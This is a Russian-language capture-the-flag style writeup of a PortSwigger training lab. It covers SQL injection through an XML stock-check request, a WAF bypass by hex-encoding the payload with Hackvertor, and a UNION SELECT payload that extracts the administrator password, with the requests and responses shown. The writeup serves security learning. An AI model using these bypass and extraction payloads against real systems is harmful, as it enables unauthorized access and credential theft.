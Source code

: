```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding"
---
```


В лабе есть уязвимая к **SQL injection** проверка товара в магазине. В БД есть таблица `users`, которая содержит в себе списки зарегистрированных пользователей с их паролями. Для прохождения нужно получить доступ к личному кабинету администратора.

```
https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/
```

## Solution

Первым делом нужно найти уязвимый запрос. На странице товара есть кнопка `check stock`, при нажатии она отправляет запрос на сервер. Сам запрос выглядит так:

```http
POST /product/stock HTTP/2
Host: 0a870041040afc00b575af4f00f900e1.web-security-academy.net
Cookie: session=K3VtfuVea5xBSJ82exXvOubl0Ohs9Gb0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Можно заметить, что тело запроса содержит `XML` документ. В нем есть 2 значения: `productId` и `storeId`. Попробую подставить пейлоад в эти параметры:

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1';</storeId></stockCheck>
```

Мне пришел ответ с сообщением `Attack detected`:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

Скорее всего на сайте используется `WAF`. Для обхода попробую кодировать пейлод в `HEX` формат. Для этого `Burp Suite Academy` предлагает установить расширение [hackvertor](https://github.com/hackvertor/hackvertor/releases/tag/v1.8.10).

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/1.png){: height="200" .align-center}

Итак, попробую подобрать пейлоад для поля `storeId`:

```
1+1 - Ok
1+2 - Ok
1 UNION SELECT '1234'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

1234
953 units
```

Попробую получить пароль для пользователя `administrator` с помощью следующего пейлоада:

```
1 UNION SELECT password FROM users WHERE username = 'administrator'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

06g5dq8793lynap20w97
953 units
```

Проверю пароль:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/2.png){: height="200" .align-center}

Я в системе)
